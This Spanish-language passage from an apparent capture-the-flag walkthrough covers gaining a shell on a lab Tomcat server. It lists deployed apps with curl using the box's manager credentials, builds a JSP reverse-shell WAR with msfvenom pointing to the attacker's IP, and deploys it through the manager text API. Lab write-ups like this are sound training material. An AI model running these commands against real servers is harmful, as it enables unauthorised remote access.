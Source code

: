 </p>

Si existe, pero si no nos autenticamos nos saldrá la página de la imagen, aca igual nos da una pista de un usuario y contraseña, pero te adelanto que no sirven.

Regresemos al login de **host_manager_webapp**.

Ya estamos autenticados, pero el problema es que no hay una opción para subir un archivo como en la **máquina Jerry** lo que nos permitia subir una **Reverse Shell** y con eso ganabamos acceso remoto.

Lo que nos dice **HackTricks** es que podemos incluir un archivo **.WAR** (que es una **Reverse Shell** que hacemos con **Msfvenom**) con la herramienta **curl**, esto se puede lograr unicamente si tienes el rol **admin, manager y manager-script**. 

En nuestro caso, tenemos el rol **admin y manager-script** por lo que podemos intentar aplicar esta intrusión.

<h2 id="WAR">Instalando Aplicación Web .WAR con CURL y Ganando Acceso</h2>

¿Qué es un archivo **.WAR**?

| **Archivo .WAR** |
|:-----------:|
| *Una aplicación Web es un grupo de páginas HTML, páginas JSP, servlets, recursos y archivo fuente, que se puede gestionar como una unidad. Un archivo WAR (Web Archive) es una aplicación Web empaquetada. Los archivos WAR se pueden utilizar para importar una aplicación Web a un servidor Web. Además de los recursos del proyecto, el archivo WAR incluye un archivo de descriptor de despliegue Web. El descriptor de despliegue Web es un archivo XML que contiene información de despliegue, tipos MIME, detalles de configuración de sesión y otros valores de una aplicación Web.* |

<br>

Entonces, lo que vamos a desplegar es una aplicación maliciosa que nos conecte de manera remota al servidor web, osea que vamos a cargar una **Reverse Shell**.

Lo principal que vamos a hacer es, con **curl** podemos listar aplicaciones web, en este caso en **Tomcat**, añadiendo una ruta (**manager/text/list**) y el usuario y contraseña:
```bash
curl -s -X GET "http://10.10.10.194:8080/manager/text/list" -u 'tomcat:$3cureP4s5w0rd123!'
OK - Listed applications for virtual host [localhost]
/:running:0:ROOT
/examples:running:0:/usr/share/tomcat9-examples/examples
/host-manager:running:1:/usr/share/tomcat9-admin/host-manager
/manager:running:0:/usr/share/tomcat9-admin/manager
/docs:running:0:/usr/share/tomcat9-docs/docs
```
De esta forma podemos saber cuando metamos la **Reverse Shell**.

Ahora, crearemos el Payload con **Msfvenom**:
```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=Tu_IP LPORT=443 -f war -o revshell.war
Payload size: 1091 bytes
Final size of war file: 1091 bytes
Saved as: revshell.war
```

Y cargamos el **.WAR** al servicio **Tomcat** con **curl**:
```bash
curl -s --upload-file revshell.war -u 'tomcat:$3cureP4s5w0rd123!' "http://10.10.10.194:8080/manager/text/deploy?path=/reverse"
OK - Deployed application at context path [/reverse]
```
